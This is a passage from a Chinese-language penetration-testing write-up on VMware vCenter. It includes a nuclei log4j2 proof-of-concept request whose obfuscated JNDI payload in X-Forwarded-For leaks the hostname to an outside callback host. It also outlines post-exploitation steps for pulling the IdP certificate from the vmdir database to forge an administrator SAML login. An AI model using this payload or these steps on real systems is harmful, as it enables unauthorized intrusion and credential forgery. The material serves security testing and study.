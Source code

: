 `com.vmware.h4.vsphere.ui.bootstrap.controller.ProvidersController.getProviderLogo()` 函数代码比较简单，通过 `URLConnection` 读取 URL 并解析。

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print](assets/1708572547-d2e4c3d5beecd3c36c32f89d82b3be44.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091611840.png-water_print")

### [](#27-log4j2-jndi-%E6%B3%A8%E5%85%A5)2.7 log4j2 JNDI 注入

VMware 的产品同样也受 log4j2 漏洞的影响，具体可以参考：[VMSA-2021-0028](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)。

POC：

-   `/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-log4j-jndi-rce.yaml`

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```http<br>GET /websso/SAML2/SSO/vsphere.local?SAMLRequest= HTTP/1.1<br>Host: {{Hostname}}<br>X-Forwarded-For: ${jndi:${lower:d}n${lower:s}://${env:hostName}.{{interactsh-url}}}<br>``` |

具体漏洞成因在此就不再赘述。

## [](#3-%E5%90%8E%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95)3 后渗透测试

### [](#31-saml-%E8%AF%81%E4%B9%A6%E7%99%BB%E5%BD%95)3.1 SAML 证书登录

vSphere 5.0 版本引入了 SSO，支持使用 SAML 作为授权服务支持。当用户登录服务时，该服务会将身份验证请求转发给 SAML。SAML 验证用户凭据是否正确以及他们是否有权访问指定的服务。

在 vCenter 中从 `/storage/db/vmware-vmdir/data.mdb` 提取 IdP 证书，为管理员用户创建 SAML 请求，最后使用 vCenter server 进行身份验证并获得有效的管理员 cookie。

首先需要从 vCenter 获得数据库文件：
